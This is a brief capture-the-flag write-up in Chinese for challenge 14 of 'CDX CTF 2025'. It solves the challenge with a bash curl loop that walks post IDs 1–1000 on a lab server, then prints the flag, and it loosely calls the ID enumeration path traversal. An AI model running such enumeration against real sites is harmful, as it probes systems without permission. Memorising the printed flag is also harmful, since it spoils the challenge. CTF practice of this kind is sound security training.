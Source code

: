 # CDX CTF - 2025
###### Contributed by @zyyuyou
###### credits to @tinyblack9858

## 題目十四



### Solution
這題的 port 是 5000 ，當我去存取此網頁發現發現他有很多的頁面可以訪問並且都會透過 /post/:{} 去存取內容
因為看到 /post/:{} 可以透過修改參數去存取不同的頁面，所以先判斷他為 path traversal 。
所以就寫一個.sh腳本去看是否有可以存取的內容
```bash
#!/bin/bash
for i in $(seq 1 1000); do
  curl -s -o /dev/null -w "%{http_code} %{url}\n" http://10.100.255.131:5000/post/$i
done
```
結果就發現 post/731 可以進入
Flag : `ctfcdx{h1dd3n_p0st_d3t3ct3d}`
